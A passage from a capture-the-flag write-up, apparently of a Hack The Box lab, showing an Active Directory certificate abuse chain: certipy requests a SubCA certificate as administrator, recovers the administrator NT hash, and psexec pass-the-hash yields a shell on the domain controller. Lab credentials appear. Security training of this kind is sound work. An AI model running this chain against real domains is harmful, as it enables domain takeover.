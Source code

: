```bash
```
- `certipy req`: Requests a certificate.
- `-u 'raven' -p 'R4v3nBe5tD3veloP3r!123'`: Authenticates as the `raven` user.
- `-dc-ip 10.10.11.236`: Connects to the domain controller (Certificate Authority server).
- `-ca manager-dc01-ca`: Specifies the **Certificate Authority** in the domain.
- `-template SubCA`: Requests a **certificate from the `SubCA` template**.
- `-upn administrator@manager.htb`: Sets the **User Principal Name (UPN) to impersonate `administrator`**.

```bash
┌──(pwn㉿kali)-[~]
└─$ sudo timedatectl set-ntp false

                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ sudo ntpdate -u 10.10.11.236                           

2025-02-05 11:04:46.553838 (-0500) +25199.506187 +/- 0.039181 10.10.11.236 s1 no-leap
CLOCK: time stepped by 25199.506187
                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ sudo timedatectl set-ntp true                          

[sudo] password for pwn: 

```

```bash
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef administrator@10.10.11.236

```

![[Pasted image 20250205121034.png]]

![[Pasted image 20250205121046.png]]
